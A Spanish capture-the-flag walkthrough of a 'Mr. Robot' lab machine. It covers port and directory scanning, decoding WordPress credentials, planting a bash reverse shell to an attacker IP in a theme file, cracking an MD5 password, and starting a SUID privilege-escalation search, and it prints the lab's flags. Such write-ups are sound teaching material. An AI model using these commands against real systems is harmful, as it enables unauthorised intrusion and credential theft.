

# Reto 5 - Mr. Robot
Herramientas utilizadas:
- nmap
- netcat
- john the ripper
- gobuster
- hashidentificar
- hydra
- 

Este reto consiste en aplicar técnicas de hacking para encontrar tres banderas en la máquina víctima. Luego de identificar el host procedemos a utilizar la herramienta ```nmap``` para determinar los servicios y versiones que corren por los puertos que tiene abiertos la máquina víctima.
```
nmap 10.32.2.48 -sCV -Pn -p-
```
```
Host is up (0.084s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn\'t have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=www.example.com
```
Podemos observar que encontramos tres puertos abiertos. Procedemos a revisar la web que se exporta por el puerto 80.

<p align="center">  </p>

Utilizamos la herramienta ```gobuster``` para listar los directorios existentes en la web.
```
gobuster dir --url http://10.32.2.48/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt

===============================================================
/images (Status: 301)
/video (Status: 301)
/rss (Status: 301)
/image (Status: 301)
/blog (Status: 301)
/0 (Status: 301)
/audio (Status: 301)
/sitemap (Status: 200)
/admin (Status: 301)
/feed (Status: 301)
/robots (Status: 200)
/dashboard (Status: 302)
/login (Status: 302)
/phpmyadmin (Status: 403)
/intro (Status: 200)
/license (Status: 200)
/wp-content (Status: 301)
/css (Status: 301)
/js (Status: 301)
```

Accedemos al directorio **/robots** y nos encontramos con dos ficheros de interés. Listamos el contenido del fichero **key-1-of-3.txt** y encontramos la primera flag del reto.

<p align="center">  </p>

Primera flag: ```flag{073403c8a58a1f80d943455fb30724b9}```


Revisando otros directorios encontramos que en ```/license``` se mostraba un mensaje que parecía no muy relevante. Al observar al final de la web, nos mostraban una cadena en base64.

<p align="center">  </p>

Decodificamos la cadena para llevarla a texto claro y obtenemos un posible usuario y contraseña.
```
echo "ZwxsaW90kVSMjgtMDY1Mgo=" | base64 -d
  elliot:ER28-0652
```
Accedemos al panel de login de Wordpress y probamos las credenciales encontradas.

<p align="center">  </p>
<p align="center">  </p>

Ya logueados nos aprovechamos del apartado **Appearance** para subir una **reverse shell** y ganar acceso a la máquina. Agregamos la línea de código siguiente:
```
bash -i >& /dev/tcp/10.8.144.236/4142 0>&1
```
Posteriormente nos ponemos en escucha en nuestra máquina local con ```netcat``` y accedemos al archivo donde se encuentra el código agregado para ganar acceso a la máquina víctima. ```URL:  http://10.32.2.48/wp-content/themes/twentyfifteen/archive.php```
```
nc -nlvp 4142
```

<p align="center">  </p>

Dentro de la máquina víctima procedemos a listar el contenido del directorio **/home/robot**

<p align="center">  </p>

Nótese que el archivo de la flag solo puede ser leído por el propietario. Revisamos el fichero **** y encontramos unas credenciales potenciales. 

<p align="center">  </p>

La contraseña se encontraba cifrada en MD5 por lo que tubimos que descifrarla utilizando la herramienta ```John The Ripper```
<p align="center">  </p>
```
john --format=raw-md5 --wordlist=/usr/share/wordlist/rockyou.txt hash.txt
  
  Using default input encoding: UTF-8
  Loaded 1 password hash (Raw-MD5 [MD5 128/128 SSE2 4x3])
  Warning: no OpenMP support for this hash type, consider --fork=2
  Press 'q' or Ctrl-C to abort, almost any other key for status

  abcdefghijklmnopqrstuvwxyz (robot)

```
En este punto nos podemos convertir en el usuario robot proporcionando la contraseña encontrada y listamos la segunda flag del reto.
```
su robot
```
```
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```
Segunda flag: flag{822c73956184f694993bede3eb39f959}

Para encontrar la tercera y última flag del reto necesitamos escalar privilegios para convertirnos en root. Buscamos por permisos SUID y encontramos que el binario nmap está corriendo con permisos SUID.
```
find / -perm -u=s -type f 2>/dev/null
```
